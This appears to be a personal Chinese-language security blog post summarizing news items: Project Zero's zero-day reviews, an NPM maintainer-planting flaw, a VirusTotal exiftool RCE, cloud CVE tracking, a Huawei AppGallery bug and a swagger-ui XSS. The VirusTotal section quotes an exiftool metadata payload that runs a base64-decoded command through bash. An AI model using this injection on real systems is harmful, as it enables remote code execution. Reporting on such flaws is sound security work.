 ```yaml
---
layout: article
title: Interesting news
mathjax: true
key: a00035
cover: /bkgs/3.jpg
modify_date: 2022-7-9
show_author_profile: true
excerpt_type: html
tag: 
- Msic
mode: immersive
header:
  theme: dark
article_header:
  type: overlay
  theme: dark
  background_color: '#203028'
  background_image:
    gradient: 'linear-gradient(135deg, rgba(34, 139, 87 , .4), rgba(139, 34, 139, .4))'
    src: /docs/assets/images/cover3.jpg
---
```


一些比较有意思的内容。之后应该会把有意思但比较零碎或不太成体系的放在这里？

<!--more-->

# P0 对2021年野外漏洞利用情况的总结分析

Project Zero认为2021的wild 0-day增加，原因应该归于**检测**和**披露**的增加（比2019多了一倍），而不是wild 0-day本身的增加

从利用技术和利用点来讲，与之前并没有很大的变化，只有两个有创新（58个中），大部分都是内存破坏漏洞（39个，即67%）

- 17个UAF
- 6个越界写/读
- 各4个，缓冲区溢出和整数溢出

2022的展望：

1. 成为行业标准，所有供应商都同意在其安全公告中披露漏洞的野生利用状态。
2. 供应商和安全研究人员共享漏洞利用示例或漏洞利用技术的详细描述
3. 继续共同努力减少内存损坏漏洞或使其无法利用

谈及0-day在野利用的时候，我们谈论的其实是0-day在野利用被**检测**和**披露**的那部分，

检测能力的提高，包括供应商自己研发的检测产品；披露很大程度上依靠的是供应商，研究者通常倾向于匿名提交漏洞。

问题

很多应该有漏洞披露的地方比如聊天软件并没有什么在野0-day漏洞披露，是未检测到？未披露？还是两者皆有？

已知的在野0-day都在使用已知的方式，是事实如此，还是说我们只检测了已知的呢？

漏洞成功利用需要两个条件，漏洞本身，及利用方式，文章本身只分析了漏洞本身（只有5个漏洞有公开的利用方式）



P0的目标是迫使攻击者在每次他们的漏洞被检测到时都需要从头开始

尽管大部分人不会成为0-day的攻击目标，但0-day的攻击本身影响着我们所有人

2021展示出我们正朝着正确的道路进发，但是还需要继续努力

# NPM maintainer attack

这个月26号之前，任何人都可以在NPM包加上任何贡献者，并且不需要对方的同意。（算是上游供应链攻击？）

因此，上传一个NPM包，加入可信贡献者，然后删除自己，即可构造一个“可信“的NPM包。修复后需要贡献者同意才能添加。

https://blog.aquasec.com/npm-package-planting

# VT RCE

和去年年底的GitLab RCE有点类似，都利用了exiftool 

```
content: (metadata "\c${system('bash -c \"{echo,BASE64-ENCODED-COMMAND-TO-BE-EXECUTED }|{base64,-d }|{bash,-i }\" ; clear') };")
```

https://www.cysrc.com/blog/virus-total-blog/

# CVE-Like Cloud Bug System

可以和第一个结合着看

云厂商有时会悄悄修复云上的漏洞，并且不公开相关细节。

可以考虑比如先修，然后再通知到受影响的客户，使其能够知晓漏洞并做出相应的操作

有个有意思的问题，CVE识别规则只认终端用户和网络管理员可以直接管理的漏洞，但是云上漏洞属于厂商自己，现有CVE规则不太适用于云

https://threatpost.com/cve-cloud-bug-system/179394/

# 华为任意APP下载

利用似乎还蛮简单的？最后Timeline部分挺有意思

https://evowizz.dev/blog/huawei-appgallery-vulnerability

# swagger-ui XSS

比较老的问题，但是还有很多没修，问题主要出在过期的`DomPurify`，范围：>=3.14.1 < 3.38.0，升到4.13.0即可

https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/

# P0 2022

至少有一半的0 day是之前出现过的漏洞的变体，即之前的漏洞并没有很好的修复，比如只修了PoC针对的地方，但是没有从根本上修复，换一个路径又能触发相同的漏洞点；或者说曾经修复了的地方又再次出现了

建议：
1.分析漏洞根源
这样能保证漏洞修复，而不仅是针对PoC patch

2.变量分析
分析其他类似的漏洞，

3. patch 分析
发布补丁的同时发布修复的思路，让发现者能分析是否真正修复了

4.分析漏洞利用技术
分析原始漏洞数据和利用手段，将其”平常化“而不是”特例化“

最后还是日常呼吁业界多共享相关信息